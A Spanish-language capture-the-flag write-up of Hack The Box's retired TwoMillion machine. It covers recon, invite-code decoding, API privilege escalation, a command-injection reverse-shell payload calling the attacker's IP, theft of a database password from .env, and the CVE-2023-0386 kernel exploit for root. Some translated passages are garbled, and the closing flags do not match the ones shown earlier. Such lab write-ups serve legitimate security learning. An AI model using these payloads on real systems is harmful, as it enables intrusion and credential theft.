# Two-millions-Hack The Box - Ejemplo

TwoMillion es un lanzamiento especial de HackTheBox para celebrar los 2.000.000 de miembros. Se lanzó directamente a los retirados, así que no se otorgan puntos ni sangre, solo para correr. Presenta un sitio web que se asemeja a la plataforma original de HackTheBox, incluyendo el desafío del código de invitación original que debía resolverse para registrarse. Una vez registrado, enumeraré la API para encontrar un endpoint que me permita convertirme en administrador y luego encontraré una inyección de comandos en otro endpoint de administrador.


## Reconocimiento
Iniciamos un escaneo con Nmap 
```bash
nmap -p- -sS --min-rate 5000 --open -vvv 10.10.11.221 -oG allPorts         
```

### Explicacion de parametros
*   -p-  pedimos que escanee todos los puertos desde el 1 al 65535
*   -sS  para enviar peticiones sin que complete el la conexion(three-way handshake”) solo envia un syn ack y lo corta con un RST asì podemos evitar dejar tantos logs y pasar mas desapercibidos
*   --min-rate 5000 para decirle que envie un minimo de 5000 paquetes por segundo
*   --open para que nos valla mostrando puertos abiertos sobre la marcha
*   -vvv triple verbose para que nos valla mostrando en tiempo real todo el progreso del escaneo y no esperar a que termine
*   -oG allPorts para que nos exporte el escaneo en un formato de nmap asì no debemos hacerlo de nuevo

### Resultado

Descubrimos que los puertos 22 y 80 estàn expuestos
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

### Exploramos que version es del servicio expuesto
```bash
nmap -sCV -p22,80 10.10.11.221 -vvv -oN targeted         
```
*  -sCV es una fusion de -sC -sV para detectar servicios y versiones.
*  -oN para que guarde el resultado del escaneo en un formato normal como si apareciera en la terminal

vemos que las versiones son las siguientes:
OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
nginx

Vemos que la ip redirige a 2million.htb
lo sumamos al /etc/hosts para tener visibilidad

### Fuerza bruta para descubrir subdominios

```bash
ffuf -u http://10.10.11.221 -H "Host: FUZZ.2million.htb" \                                                      37s  system root@kali
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-mc all -ac -t 50
```
No pudimos encontrar nada asì que vamos directo a la web

## Vemos una pagina web de Hack-The-Box


## Usamos feroxbuster para descubrir rutas ya que wfuzz y gobuster no funcionaban.


<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
feroxbuster -u http://2million.htb
                                                                                    
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://2million.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       11w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
401      GET        0l        0w        0c http://2million.htb/api
200      GET       27l      201w    15384c http://2million.htb/images/favicon.png
405      GET        0l        0w        0c http://2million.htb/api/v1/user/register
200      GET        1l        8w      637c http://2million.htb/js/inviteapi.min.js
405      GET        0l        0w        0c http://2million.htb/api/v1/user/login
200      GET       80l      232w     3704c http://2million.htb/login
200      GET       96l      285w     3859c http://2million.htb/invite
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET      245l      317w    28522c http://2million.htb/images/logofull-tr-web.png
200      GET      260l      328w    29158c http://2million.htb/images/logo-transparent.png
200      GET       46l      152w     1674c http://2million.htb/404
200      GET        5l     1881w   145660c http://2million.htb/js/htb-frontend.min.js
200      GET       13l     2209w   199494c http://2million.htb/css/htb-frontpage.css
200      GET       13l     2458w   224695c http://2million.htb/css/htb-frontend.css
200      GET       94l      293w     4527c http://2million.htb/register
200      GET        8l     3162w   254388c http://2million.htb/js/htb-frontpage.min.js
200      GET     1242l     3326w    64952c http://2million.htb/
405      GET        0l        0w        0c http://2million.htb/api/v1/invite/verify </code>

</pre> 


Hay cosas que nos interesan pero destaca /js/inviteapi.min.js.
Por Ejemplo encontramos:
## Un Login


## Un register


## Un invite
Nos deja poner un codigo de invitaciòn que mas adelante conseguiremos


## Encontramos al final en la pagina invite un inviteapi.min.js
```js
  <script src="/js/htb-frontend.min.js"></script>
    <script defer src="/js/inviteapi.min.js"></script>
    <script defer>
```
## Aparece esto en el recurso de api
```js
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Con algo muy particular y es que nos dice el nombre de la variable que envia un POST al endpoint /api/v1/invite/verifyInviteCode

```bash
makeInviteCode
```

Lo ejecutamos desde la consola


## Decodificamos ROT13
Vemos que dice ROT13 lo cual es una pista que su codificacion es ROT13
ROT13 es un metodo de codificacion que rota 13 posiciones la posicion real de la letra
Ejemplo la A es la N
Puedes hacerlo con chat-Gpt o desde la terminal de linux con el siguiente comando:

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
Vemos que la ruta que genera los codigos de invitados es
/api/v1/invite/generate
por lo que con curl vamos a enviar una peticion por POST y generarlo

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
curl -X POST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"SDZVUEktNFNWNFktOVdPWlMtS1BXMFU=","format":"encoded"}}# </code>
</pre> 
Ese codigo es el que nos genera


Podemos verlo de mejor manera asi:


<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
curl -X POST http://2million.htb/api/v1/invite/generate -s | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "Slo5NzEtTUFYSVotSlFMRUktNUNYWTE=",
    "format": "encoded"
  }
} </code>
</pre> 

Vemos que nos dice encode y por su forma de letras y numeros mas el = al final nos dice que es una codificacion en base 64
Asi que ahora decodificamos

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
echo "Slo5NzEtTUFYSVotSlFMRUktNUNYWTE=" | base64 -d
JZ971-MAXIZ-JQLEI-5CXY1# </code>
</pre> 
      
Vamos de nuevo a la consola de la seccion invite y probamos para ver si es correcto el codigo


Nos dice 1 lo que es codigo de estado exitoso.
Asi que ahora lo ponemos en el campo y nos redirige directamente al register con el codigo puesto


Nos registramos,iniciamos sesion y ya estamos dentro.


Dice que el sitio está realizando migraciones de bases de datos, y algunas características no están disponibles. En realidad, eso significa la mayoría. El tablero, las reglas y los enlaces de Cambiar sesión bajo el trabajo de "Main", y tienen buenas páginas de devolución al HTB original.

Bajo la página "Labs", el único enlace que realmente funciona es la página "Access", que conduce a /home/access:


Haciendo clic en "Connection Pack". y "Regengerate", ambos devuelven un .ovpnArchivo. Es una configuración válida de conexión OpenVPN, y puedo tratar de conectarme con ella, pero no funciona.

## API
Envía una solicitud de GET a /api/v1/user/vpn/generate, y Regenerate envía un GET a /api/v1/user/vpn/regenerate.

Enviaré estas solicitudes a Burp Repeater y jugar con la API. /apidevuelve una descripción:


# Enumerar la API de administración

No soy administrador,logico.


Si trato de POST a /api/v1/admin/vpn/generate, devuelve 401 Unauthorized:


Sin embargo, una petición de PUT a /api/v1/admin/settings/updateno devuelve 401, pero 200, con un error diferente en el cuerpo:


# Obs acceso a administración

Vemos que el error que nos tira es porque el contenido no es valido.Entonces como no tenemos content type y al parecer es un JSON se lo sumamos


Ahora dice que el correo electrónico está desaparecido. Añadiré que en el cuerpo en JSON:




Ahora quiere is_admin, entonces añadiré que como true:


Busca 0 o 1. Lo fijaré en 1, y parece funcionar:
# RECUERDA PONER EL EMAIL COMO TE REGISTRASTE,EN ESTE EJEMPLO SE VE...


```js
{ "email":"brian@gmail.com",
"is_admin": 1
}
```


Si vuelvo a verificar mi autenticacion como admin me dice que si


# Inyección de comandos 

## Enumerar generar API
Como mi cuenta es ahora un administrador, ya no obtengo una respuesta 401 de /api/v1/admin/vpn/generate:


Añadi mi nombre de usuario, y genera una clave VPN:
Previo a eso hay que modificar el content type a json,cambiar el metodo a POST y poner el parametro username

```js
{
"username":"brian"
}
```



Mi cuenta es ahora admin.

# Inyección

Probablemente no sea el código PHP que genera una tecla VPN, sino algunas herramientas de Bash que generan la información necesaria para una tecla VPN.

Vale la pena comprobar si hay alguna inyección de comando.

Si el servidor está haciendo algo parecido gen_vpn.sh [username], entonces, intentaré poner un ;en el nombre de usuario para dividir eso en un nuevo comando. Ill también añadir un #al final para comentar cualquier cosa que pueda venir después de mi aportación. Funciona:



## Shell

Para conseguir una reverse-shell, empezaré. ncescuchando a mi anfitrión, y pon una cáscara inversa como el nombre de usuario:

```js
{
"username":"brian ; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1' #"    
}
```




Hacemos un tratamiento de la tty

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
www-data@2million:~/html$ export TERM=xterm
export TERM=xterm
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ </code>
</pre>

stty raw -echo; fg
reset xterm

# Shell como administrador
Empezamos a enumerar
La raíz web está en la ubicación predeterminada, /var/www/html:

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
www-data@2million:~/html$ ls -la
ls -la
total 56
drwxr-xr-x 10 root root 4096 Aug 29 00:30 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 29 00:30 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views </code>
</pre>

 index.php define un montón de rutas para las diversas páginas y puntos de endo utilizados en el sitio web.

Ahí es un .envficha también. Este archivo se utiliza comúnmente en los trabajos de marco web PHP para establecer variables de entorno para su uso por la aplicación. Esta aplicación es más flore a .envarchivo en lugar de usarlo en un marco, pero .envel archivo todavía se ve igual:


<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
www-data@2million:~/html$ cat .env
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123 </code>
</pre>

# su / SSH

Esa contraseña funciona para ambos sucomo administrador:

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
www-data@2million:~/html$ su - admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@2million:~$ </code>

</pre>

Vemos que tenemos un archivo user.txt
<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
cat user.txt
e6ad744f0740fd9829b0141ac44d7133
admin@2million:~$ </code>

</pre>

# Enumeración
## Mail

De hecho, esta explotación podría llevarse a cabo en forma de datos en www. Pero si puedo llegar a administración, hay una pista de dónde mirar.

Cuando me encendí sobre SSH, había una línea en el estandarte que decía que Admin tenía correo. Eso se mantiene en /var/mail/admin:

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather  </code>

</pre>

Habla de que hay que parchear el sistema operativo y menciona una super instalacion CVEFUSE

## Identificar la vulnerabilidad
TwoMillion está ejecutando Ubuntu 22.04 con el núcleo 5.15.70:

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
admin@2million:/var/mail$   </code>
</pre>

Una búsqueda de la vulnerabilidad del núcleo de Linux superponer los superáfos limitados al último año devuelve un montón de cosas sobre CVE-2023-0386:

La herramienta ya la teniamos descragada e instalada en un directorio de admin


<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
ls
CVE-2023-0386  CVE-2023-0386.tar  user.txt
admin@2million:~$ cd CVE-2023-0386/
admin@2million:~/CVE-2023-0386$ ls
exp  exp.c  fuse  fuse.c  gc  getshell.c  Makefile  ovlcap  README.md  test
admin@2million:~/CVE-2023-0386$  </code>
</pre>

Para crear una 2da ventana mas facil crea un authorized keys ssh asi te conecas las veces que quieras
Copiamos nuestra clave ssh en nestra clipboard(esto en nuestra maquina atacante)
```bash
 cat ~/.ssh/id_ed25519.pub | tr -d '\n' | xclip -sel clip              
```
En nuestra maquina victima la pegamos en el archivo que creemos

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
admin@2million:~$ cd .ssh
admin@2million:~/.ssh$ ls
authorized_keys
admin@2million:~/.ssh$ nano authorized_keys  </code>
</pre>

Ahora en la terminal 1 ponemos 
```bash
./fuse ./ovlcap/lower ./gc
```
En la terminal 2 
```bash
 ./exp 
```
Ya somos root

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
root@2million:/root# cat root.txt 
192c504c187401d749f93c30b4ce8c81
root@2million:/root# </code>
</pre>

# thank_you.json

<pre 
  class="command-line" 
  data-prompt="kali@kali $" 
  data-output="4"
><code class="language-bash"># Bash script with shell
cat thank_you.json  
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"} </code>
</pre>

Es JSON con dos llaves, encodin que está fijado en "url". y data. Agarraré los datos y volcarélos en CyberChef con la operación .URL Decode:
https://gchq.github.io/CyberChef/



El resultado es otra mancha JSON, esta vez con "encoding. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . Moveré los datos a la entrada, deshabilitaré el código URL y añadiré "Desde Hex":


Otra manja. Esta vez tiene una llave para encryption, encryption_key, y encoding. Los datos se parecen a la base64, así que Ill lo decodifica, y luego aplican un XOR con la tecla "HackTheBox".

# La flag de admin es:
```bash
78d98fad5c39da94203e00524dd83bdc
```
# La de root es:
```bash
dd799835e5d14e52952e88479b78e03e
```
